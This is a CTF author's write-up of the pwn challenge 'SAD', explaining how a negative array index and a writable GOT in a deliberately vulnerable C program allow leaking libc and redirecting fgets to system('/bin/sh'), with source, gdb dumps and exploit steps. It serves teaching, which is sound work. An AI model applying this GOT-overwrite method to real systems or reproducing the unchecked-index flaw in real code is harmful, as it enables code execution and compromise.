 ## Challenge Name: SAD
**Category**: Pwn

**Points**: 499

**Solves**: 2

**Challenge Description**: There's a secret agent database (SAD) I
 just got access to, I wonder if there's more we can access beyond the secret agent names...

Given Files:
* [sad](sad)
* [chall.c](chall.c)
* [libc](libc6_2.35-0ubuntu3.6_amd64.so)
* [dynamic linker](ld.so)
* [solve.py](solve.py)

This was the first challenge I ever wrote for a ctf and I hope the players enjoyed it. Here is my intented solution and it also happens to be my first ever writeups so I apologise in advance if it is unclear.

## Solution
Running the binary we get
```
root@8bbc2ed97cff:/home/sieberr# ./sad
Welcome to the secret agent database (sad)!!!
Someone told me it can be hacked with ease...
--- MENU ---
1. Read a name
2. Change a name
3. Exit
> 1
Agent number: 0
[Agent no. 0]: Alice
--- MENU ---
1. Read a name
2. Change a name
3. Exit
> 2
Agent number: 0
New name: AAAA
[Agent no. 0]: AAAA

--- MENU ---
1. Read a name
2. Change a name
3. Exit
> 3
Bye
```
We can view and edit agent names based off an indexing system. Looking through the source code, we see that agents is an array stored in the .bss section as it is a global array.
```
char agents[][8] = {"Alice","Bob","Craig","David","Eve","Faythe"};
``` 
We can access negative indexes of the agents array as it only checks if the index is smaller than 8, meaning that we can read and write arbitary memory in this program. 
```
    while (1) {
        menu();
        scanf("%d", &choice);
        switch(choice) {
            case 1:
                printf("Agent number: ");
                scanf("%d", &index);
                if (index > (int)(sizeof(agents)/8)-1) {
                    puts("tsk tsk don't be naughty...");
                    exit(1);
                }
                printf("[Agent no. %d]: %s\n",index, agents[index]);
                break;
            case 2:
                printf("Agent number: ");
                scanf("%d", &index);
                if (index > (int)(sizeof(agents)/8)-1) {
                    puts("tsk tsk don't be naughty...");
                    exit(1);
                }
                getchar();
                printf("New name: ");
                fgets(agents[index],8,stdin);
                printf("[Agent no. %d]: %s\n",index, agents[index]);
                break;
            case 3:
                puts("Bye");
                exit(1);
            default:
                puts("Invalid Choice");
        }
```
In addition, the program is complied with no relro so the global offset table(got) is writeable. The got contains entries to functions in libc so that they are linked dynamically when the code runs.
```
//gcc  ./chall.c -Wl,-z,norelro -o sad
```

## Exploit
We can leak the addresses of libc functions in the got to defeat aslr. Examining memory in gdb, we can see that the printf got entry is at `0x555555600f28` and `-11` index of agents.
```
pwndbg> x/20gx 0x555555600f20
0x555555600f20: 0x00007ffff7e13e50      0x00007ffff7df36f0
0x555555600f30: 0x00007ffff7e12380      0x00007ffff7e1aae0
0x555555600f40: 0x00007ffff7df5090      0x00007ffff7dd85f0
0x555555600f50: 0x0000000000000000      0x0000000000000000
0x555555600f60: 0x0000000000000000      0x0000555555600f68
0x555555600f70: 0x0000000000000000      0x0000000000000000
0x555555600f80 <agents>:        0x0000006563696c41      0x0000000000626f42
0x555555600f90 <agents+16>:     0x0000006769617243      0x0000006469766144
0x555555600fa0 <agents+32>:     0x0000000000657645      0x0000656874796146
0x555555600fb0 <stdin@@GLIBC_2.2.5>:    0x00007ffff7fadaa0      0x0000000000000000
pwndbg> got

GOT protection: No RELRO | GOT functions: 6

[0x555555600f20] puts@GLIBC_2.2.5 -> 0x7ffff7e13e50 (puts) ◂— endbr64
[0x555555600f28] printf@GLIBC_2.2.5 -> 0x7ffff7df36f0 (printf) ◂— endbr64
[0x555555600f30] fgets@GLIBC_2.2.5 -> 0x7ffff7e12380 (fgets) ◂— endbr64
[0x555555600f38] getchar@GLIBC_2.2.5 -> 0x7ffff7e1aae0 (getchar) ◂— endbr64
[0x555555600f40] __isoc99_scanf@GLIBC_2.7 -> 0x7ffff7df5090 (__isoc99_scanf) ◂— endbr64
[0x555555600f48] exit@GLIBC_2.2.5 -> 0x7ffff7dd85f0 (exit) ◂— endbr64
```
The offset of system from printf is `0xf980` and we can overwrite the the a got entry to point to system in libc. This means that when that function is called, system is actually ran with all the original arguments.
```
pwndbg> x printf-system
0xf980: Cannot access memory at address 0xf980
```
A good victim would be `fgets` as it is called in this way
```
fgets(agents[index],8,stdin);
```
So when the got entry of `fgets` is overwritten to point to `system`. `system` with the first argument being an index of the `agents` array we can control and edit to be `/bin/sh` is called.
```
system(agents[index]);
```
1. Leak the `printf` address by reading -11 index of the `agents` array and calculate the address of `system` (Libc is given)

2. Edit an entry of `agents` array to `/bin/sh` 

3. Edit `fgets` (offset -10) got entry to point to system.

4. Choose to edit the index of `agents` array with `/bin/sh` written to trigger call to `system`


### Flag
sctf{4rr4y_00b5_4r3_d4ng3rou5}
